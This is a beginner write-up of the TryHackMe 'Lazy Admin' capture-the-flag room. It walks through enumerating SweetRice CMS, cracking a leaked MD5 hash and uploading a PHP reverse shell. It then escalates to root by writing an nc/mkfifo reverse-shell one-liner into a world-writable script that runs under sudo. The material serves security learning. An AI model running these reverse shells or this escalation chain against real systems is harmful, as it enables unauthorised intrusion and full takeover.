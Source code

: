 ```yaml
---
title : Lazy Admin - TryHackMe WriteUp
author : Seif-Allah
description : Beginner level writeUp for the "Lazy Admin" room.
layout : post
category : CTF-WriteUp
---
```


### <mark style='background-color: white'>Introduction</mark>
'Lazy Admin' is an easy room made by [MrSeth6797](https://tryhackme.com/p/MrSeth6797), great for practice challenges. 
Let's get started! 

### <mark style='background-color: white'>Enumeration</mark>
Starting Nmap with the -A flag, here's the output : 
- - -
<pre>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
</pre>
- - - 
Examining the source code of the running web service looking for some creds, found nothing. So I fire up gobuster using the *directory-list-2.3-medium.txt* wordlist and found a subdirectory called */content* : 
![/content](/assets/images/writeups/thm/lazy_admin/content.png "/content")
Found out that "Basic-CMS Sweetrice" is running here, firing up gobuster again and adding */content* to the URI and here's the result: 
![/gobustercontent](/assets/images/writeups/thm/lazy_admin/gobuster_content.png "/gobuster_content")
Did some research about this CMS and found that the 1.5.1 version suffers from a code execution vulnerability via the use of a cross site request forgery flaw.
Check this link : [SweetRice-1.5.1-Code-Execution](https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html)
So basically, this means that I can upload a php reverse shell and execute it but first we need some credentials to login and then upload our file, so we need more enumeration.
I examine the other subdirectories and there's a specific file that got my attention : */content/inc/mysql\_backup/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql* ! 
Examining it carefully, I found a username and a password hash (*line 79*).
The password hash type is MD5, I used hydra to crack it using the *rockyou.txt* wordlist and then logged in the *Sweetrice* CMS, easy hein ? 

### <mark style='background-color: white'>USER.txt - Easy Peasy</mark>
To get the reverse shell, I simply started my listener (*nc -nlvp 1234*) and then copied the */usr/share/webshells/php/php-reverse-shell.php* file inside the ads section, save it and run it as mentionad in the script above. and boom! got the reverse shell ! 
- - - 
<pre>
listening on [any] 1234 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 56240
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:01:47 up 5 min,  0 users,  load average: 1.37, 2.14, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
</pre>
- - -
This time, I was lucky by opening the *user.txt* file without any privelage escalation, and yeah it works ! 
- - - 
<pre>
$ cd /home
$ ls
itguy
$ cd itguy
$ cat user.txt
THM{#####################}
</pre>
- - -


### <mark style='background-color:white'>ROOT.txt</mark>
Now we need to find a way to get the root flag !
First of all, I ran *sudo -l* command : 
- - -

<pre>
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
</pre>

- - -
Well, the user www-data can run the following command ? let's open the backup.pl file ! 
- - -
<pre>
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
</pre>
- - -
hum ! can we edit the copy.sh file so it gets executed as root ? 
- - -
<pre>
$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
</pre>
- - -
and yeah we can edit it, SUPER ! So the first idea tha came in my mind is to get an another reverse shell using this command : 
- - - 
<pre> 
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 \>/tmp/f' \>/etc/copy.sh
</pre>
- - - 
After setting up the listener and ran the command, I got the root shell ! now it's time the get root flag !! :) finally ! 
- - - 
<pre>
root@kali:~# nc -nlvp 5554
listening on [any] 5554 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 51512
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
</pre>
- - - 
Congrats, now you pissed off the lazy admin ! 
